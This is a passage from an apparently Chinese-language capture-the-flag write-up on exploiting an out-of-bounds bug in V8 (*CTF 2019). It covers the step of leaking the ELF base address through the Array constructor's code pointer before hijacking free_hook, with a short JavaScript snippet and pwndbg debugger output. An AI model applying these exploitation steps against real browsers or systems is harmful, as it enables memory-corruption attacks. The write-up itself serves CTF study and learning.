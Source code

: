 ![img](..\image\2020-07-13-starctf2019-v8-oob分析\1.png)



（3）劫持free_hook

已经可以任意读写了，首先需要泄露libc地址或者elf的基址。这里可以通过object->map->constructor->code 来泄漏 elf 的基址

```
var a = [1.1, 2.2];
%DebugPrint(a.constructor);
```



```c
pwndbg> job 0x3edb76250ec1
0x3edb76250ec1: [Function] in OldSpace
 - map: 0x11bd152c2d49 <Map(HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x3edb76242109 <JSFunction (sfi = 0x2fb963f03b29)>
 - elements: 0x019604340c71 <FixedArray[0]> [HOLEY_ELEMENTS]
 - function prototype: 0x3edb76251111 <JSArray[0]>
 - initial_map: 0x11bd152c2d99 <Map(PACKED_SMI_ELEMENTS)>
 - shared_info: 0x2fb963f06791 <SharedFunctionInfo Array>
 - name: 0x019604343599 <String[#5]: Array>
 - builtin: ArrayConstructor
 - formal_parameter_count: 65535
 - kind: NormalFunction
 - context: 0x3edb76241869 <NativeContext[246]>
 - code: 0x1dced6306981 <Code BUILTIN ArrayConstructor>
 - properties: 0x3edb76251029 <PropertyArray[6]> {
    #length: 0x2fb963f004b9 <AccessorInfo> (const accessor descriptor)
    #name: 0x2fb963f00449 <AccessorInfo> (const accessor descriptor)
    #prototype: 0x2fb963f00529 <AccessorInfo> (const accessor descriptor)
    0x019604344c79 <Symbol: (native_context_index_symbol)>: 11 (const data field 0) properties[0]
    0x019604344f41 <Symbol: Symbol.species>: 0x3edb76250fd9 <AccessorPair> (const accessor descriptor)
    #isArray: 0x3edb76251069 <JSFunction isArray (sfi = 0x2fb963f06829)> (const data field 1) properties[1]
    #from: 0x3edb762510a1 <JSFunction from (sfi = 0x2fb963f06879)> (const data field 2) properties[2]
    #of: 0x3edb762510d9 <JSFunction of (sfi = 0x2fb963f068b1)> (const data field 3) properties[3]
 }
```